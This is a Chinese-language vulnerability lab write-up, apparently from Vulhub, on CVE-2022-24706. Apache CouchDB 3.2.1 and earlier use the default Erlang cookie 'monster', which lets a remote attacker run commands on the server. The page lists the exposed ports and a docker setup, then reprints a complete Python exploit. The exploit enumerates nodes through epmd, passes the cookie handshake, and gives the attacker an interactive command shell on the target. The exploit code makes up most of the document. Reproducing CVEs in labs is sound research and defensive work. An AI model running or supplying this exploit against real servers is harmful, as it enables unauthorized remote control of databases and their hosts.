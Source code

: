 # CouchDB Erlang 分布式协议代码执行 CVE-2022-24706

Apache CouchDB是一个Erlang开发的NoSQL数据库。

由于Erlang的特性，其支持分布式计算，分布式节点之间通过Erlang/OTP Distribution协议进行通信。攻击者如果知道通信时使用的Cookie，即可在握手包通过认证并执行任意命令。

在CouchDB 3.2.1及以前版本中，使用了默认Cookie，值为“monster”。

参考链接：

- https://docs.couchdb.org/en/3.2.2-docs/cve/2022-24706.html
- https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/
- https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/multi/misc/erlang_cookie_rce.rb
- https://github.com/sadshade/CVE-2022-24706-CouchDB-Exploit

## 漏洞环境

Vulhub执行如下命令启动一个Apache CouchDB 3.2.1服务：

```
docker-compose up -d
```

服务启动后，会监听三个端口：

- 5984: Apache CouchDB Web管理接口
- 4369: Erlang端口映射服务（epmd）
- 9100: 集群节点通信和运行时自省服务（代码执行实际发生在这个端口中）

其中，Web管理接口和epmd服务端口是固定的，而集群通信接口在Vulhub中是9100。实际环境下，这个端口通常是随机的，我们可以通过epmd服务来获取这个端口的数值。

## 漏洞复现

我们可以使用[这个POC](https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2022-24706/poc.py)来利用本漏洞。这个POC会先通过目标的4369端口epmd服务获取集群通信的端口，也就是9100，然后再使用默认Cookie来控制节点执行任意命令。

```
python poc.py target-ip 4369
```

![image-20221125163205330](./images/202211251632392.png)

## 漏洞POC

- https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2022-24706/poc.py

```python
# Exploit Title: Remote Command Execution via Erlang Distribution Protocol 
# Date: 2022-01-21
# Exploit Author: Konstantin Burov, @_sadshade
# Software Link: https://www.erlang.org/doc/apps/erts/erl_dist_protocol.html
# Version: N/A
# Tested on: Kali 2021.2
# Based on 1F98D's Erlang Cookie - Remote Code Execution
# Shodan: port:4369 "name "
# References:
#  https://www.exploit-db.com/exploits/49418
#  https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/
#  https://book.hacktricks.xyz/pentesting/4369-pentesting-erlang-port-mapper-daemon-epmd#erlang-cookie-rce
# 
#
#!/usr/local/bin/python3

import socket
from hashlib import md5
import struct
import sys
import re
import time

TARGET = sys.argv[1]
EPMD_PORT = int(sys.argv[2]) # Default Erlang distributed port
COOKIE = "monster" # Default Erlang cookie for CouchDB 
ERLNAG_PORT = 0
EPM_NAME_CMD = b"\x00\x01\x6e" # Request for nodes list

# Some data:
NAME_MSG  = b"\x00\x15n\x00\x05\x00\x07\x49\x9cAAAAAA@AAAAAAA"
CHALLENGE_REPLY = b"\x00\x15r\x01\x02\x03\x04"
CTRL_DATA  = b"\x83h\x04a\x06gw\x0eAAAAAA@AAAAAAA\x00\x00\x00\x03"
CTRL_DATA += b"\x00\x00\x00\x00\x00w\x00w\x03rex"


def compile_cmd(CMD):
    MSG  = b"\x83h\x02gw\x0eAAAAAA@AAAAAAA\x00\x00\x00\x03\x00\x00\x00"
    MSG += b"\x00\x00h\x05w\x04callw\x02osw\x03cmdl\x00\x00\x00\x01k"
    MSG += struct.pack(">H", len(CMD))
    MSG += bytes(CMD, 'ascii')
    MSG += b'jw\x04user'
    PAYLOAD = b'\x70' + CTRL_DATA + MSG
    PAYLOAD = struct.pack('!I', len(PAYLOAD)) + PAYLOAD
    return PAYLOAD

print("Remote Command Execution via Erlang Distribution Protocol.\n")

# Connect to EPMD:
try:
    epm_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    epm_socket.connect((TARGET, EPMD_PORT))
except socket.error as msg:
    print("Couldnt connect to EPMD: %s\n terminating program" % msg)
    sys.exit(1)
    
epm_socket.send(EPM_NAME_CMD) #request Erlang nodes
if epm_socket.recv(4) == b'\x00\x00\x11\x11': # OK
    data = epm_socket.recv(1024)
    data = data[0:len(data) - 1].decode('ascii')
    data = data.split("\n")
    if len(data) == 1:
        choise = 1
        print("Found " + data[0])
    else:
        print("\nMore than one node found, choose which one to use:")
        line_number = 0
        for line in data:
            line_number += 1
            print(" %d) %s" %(line_number, line))
        choise = int(input("\n> "))
        
    ERLNAG_PORT = int(re.search("\d+$",data[choise - 1])[0])
else:
    print("Node list request error, exiting")
    sys.exit(1)
epm_socket.close()

# Connect to Erlang port:
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((TARGET, ERLNAG_PORT))
except socket.error as msg:
    print("Couldnt connect to Erlang server: %s\n terminating program" % msg)
    sys.exit(1)
   
s.send(NAME_MSG)
s.recv(5)
challenge = s.recv(1024)     # Receive "challenge" message
print(challenge)
challenge = struct.unpack(">I", challenge[9:13])[0]

#print("Extracted challenge: {}".format(challenge))

# Add Challenge Digest
CHALLENGE_REPLY += md5(bytes(COOKIE, "ascii")
    + bytes(str(challenge), "ascii")).digest()
s.send(CHALLENGE_REPLY)
CHALLENGE_RESPONSE = s.recv(1024)

if len(CHALLENGE_RESPONSE) == 0:
    print("Authentication failed, exiting")
    sys.exit(1)

print("Authentication successful")
print("Enter command:\n")

data_size = 0
while True:
    if data_size <= 0:
        CMD = input("> ")
        if not CMD:
            continue
        elif CMD == "exit":
            sys.exit(0)
        s.send(compile_cmd(CMD))
        data_size = struct.unpack(">I", s.recv(4))[0] # Get data size
        s.recv(45)              # Control message
        data_size -= 45         # Data size without control message
        time.sleep(0.1)
    elif data_size < 1024:        
        data = s.recv(data_size)
        #print("S---data_size: %d, data_recv_size: %d" %(data_size,len(data)))
        time.sleep(0.1)
        print(data[3:].decode())
        data_size = 0
    else:        
        data = s.recv(1024)
        #print("L---data_size: %d, data_recv_size: %d" %(data_size,len(data)))
        time.sleep(0.1)
        print(data[4:].decode())
        data_size -= 1024
```

